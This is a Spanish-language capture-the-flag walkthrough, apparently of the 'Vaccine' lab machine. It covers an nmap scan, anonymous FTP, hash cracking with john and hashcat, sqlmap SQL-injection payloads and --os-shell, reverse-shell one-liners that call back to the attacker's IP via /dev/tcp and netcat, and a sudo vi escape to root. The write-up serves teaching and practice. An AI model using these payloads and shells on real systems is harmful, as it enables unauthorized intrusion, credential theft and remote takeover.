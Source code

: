 #Linux #Easy #fuzzing
### nmap
```python
nmap -sVC 10.129.66.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 16:29 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 28.95% done; ETC: 16:29 (0:00:20 remaining)
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 77.37% done; ETC: 16:29 (0:00:06 remaining)
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 16:30 (0:00:03 remaining)
Nmap scan report for 10.129.66.130
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.157
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

###### Podemos ver que el puerto 21 esta corriendo el servicio ftp el cual esta configurado por defecto como anonymous
### ftp
```python
ftp 10.129.66.130
Connected to 10.129.66.130.
220 (vsFTPd 3.0.3)
Name (10.129.66.130:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10423|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

###### al entrar nos damos cuenta que existe un archivo backup.zip el cual descargaremos usando `get backup.zip` si hacemos `unzip backup.zip` al intentar descomprimir el archivo nos damos cuenta que esta cifrado por lo que usaremos `john the ripper con la opcion zip2john` 

```python
zip2john backup.zip > backuphash  
```
###### con la opcion `>` cambiamos el nombre para que podamos ver el hash de la contraseña, ahora le hacemos un `cat` para ver si tenemos el hash y si todo esta correcto le pasamos el john 

```python
john -wordlist=/usr/share/wordlists/rockyou.txt backuphash

--Passw: 741852963
```

![[Pasted image 20240611211603.png]]

###### conseguimos dos archivos: `index.php` `style.css` el index.php se ve prometedor asi que le hacemos un `cat`

![[Pasted image 20240611211609.png]]
###### conseguimos lo que parece ser una contraseña que esta codificada en otro hash. entonces usaremos hashid para intentar saber que tipo de hash es 

```python
:hashid 2cb42f8734ea607eefed3b70af13bbd3
```

![[Pasted image 20240611211614.png]]

###### Podriamos probar con MD2 - MD5 y MD4 que son los mas comunes. para esto usaremos `hashcat`

```python
hashcat -a 0 -m 0 passwhash /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20240611211622.png]]

###### Bueno nos guardamos la contraseña probaremos entrar en la direccion web ya que en el reconocimiento nmap nos damos cuenta que tambien tiene el puerto 80 abierto

![[Pasted image 20240611211630.png]]

### iniciamos con las credenciales que hemos conseguido
```python
--admin
--qwerty789
```

![[Pasted image 20240611211636.png]]

###### logramos entrar y haciendo unas pruebas rapidas parece que la pag esta conectada a la base de datos y es vulnerable a SQLI. 

```python
como podemos saber si es vulnebrable a SQLI. en el buscador ponemos una comilla simple ` y damos enter y vemos que aparece un error. esto se debe a que la pag esta leyendo la comilla como si fuera un caracter alfa numerico y no como un caracter especial como deberia ser
```
para verificar esto usaremos `sqlmap`
```python
sqlmap -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg"

-u para indicar la url de la pag 
--cookie para indicar la cookie de session 

si hacemos sqlmap -h se abre el panel de ayuda y podemos ver que el comando --current-db nos enumera la base de datos actual en la que estamos asi que usaremos ese 

tambien podemos ver que existe uno llamado --batch para que realice todas las acciones por defecto sin pregunytarnos nada. asi que el comando nos queda de la sigiente manera: 
------------------------------------------------------
sqlmap --current-db -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
------------------------------------------------------
```

### Podemos ver que el resultado:
![[Pasted image 20240611211647.png]]

### Podemos notar que existen 4 tipos de inyecciones SQLI y que el nombre de la base de datos es public

```python
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (1509=1509) THEN NULL ELSE CAST((CHR(101)||CHR(86)||CHR(75)||CHR(74)) AS NUMERIC) END)) IS NULL-- nIOk

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=a' AND 2166=CAST((CHR(113)||CHR(122)||CHR(118)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (2166=2166) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(107)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC)-- NgJP

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 7512=(SELECT 7512 FROM PG_SLEEP(5))-- tfIZ
```

###### ahora que sabemos el nombre de la base de datos podemos enumerarla usando el mismo comando sqlmap con una pequeña variante: 
```python
sqlmap -D public --tables -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```
conseguimos una tabla llamada cars asi que buscaremos esa tabla con el siguiente comando
```python
sqlmap -D public -T cars --culumns -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[Pasted image 20240611211725.png]]

###### podemos ver algunas columnas pero si nos fijamos podemos ver que son las mismas que salen ena la pagina web asi que mejor seguimos buascando en sqlmap y podemos encontar la opcion `--os-shell` asi que lo usaremos en nuestro codigo.

```python
sqlmap --os-shell -u "http://vaccine/dashboard.php?search=a" --cookie="PHPSESSID=0fdem904l7klplg6hs8q1228rg" --batch
```

![[Pasted image 20240611211738.png]]

###### de esta manera hemos conseguido una shell interactiva. pero esta shell esta un poco limitada asi que podemos intentar enviarnos una reverse shell a nuestro equipo para poder interactuar de mejor manera.

```python
sh -i >& /dev/tcp/10.10.15.157/8001 0>&1
```

```python
bash -c 'bash -i >& /dev/tcp/10.10.15.157/8001 0>&1'
```

###### con esta bash notamos que perdemos coneccion. asi que usaremos una enviada por netcat para intentar resolver esto.

```python
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```

### despues de esto hacemos tratamiento tty y empezamos a examinar la maquina.

###### vamos a navegar hasta el directorio donde esta alojada la base de datos
passid:
```python
2cb42f8734ea607eefed3b70af13bbd3
```
db:id
```python
user: postgres
password: P@s5w0rd!
```

### con estas credenciales podriamos intentar entrar via ssh

hacemos sudo -l para saber cuales son los permiso que tiene el usuario postgres como administrador 

```python
/bin/vi /etc/postgresql/11/main/pg_hba.config`
```

vemos que tiene permisos solo en este archivo asi que lo ejecutaremos como administrador 
```python
sudo /bin/vi /etc/postgresql/11/main/pg_hba.config
```

abrimos el archivo, y le decimos que nos de una shell y presionamos enter. 
automaticamente seremos root

### WE ARE ROOT
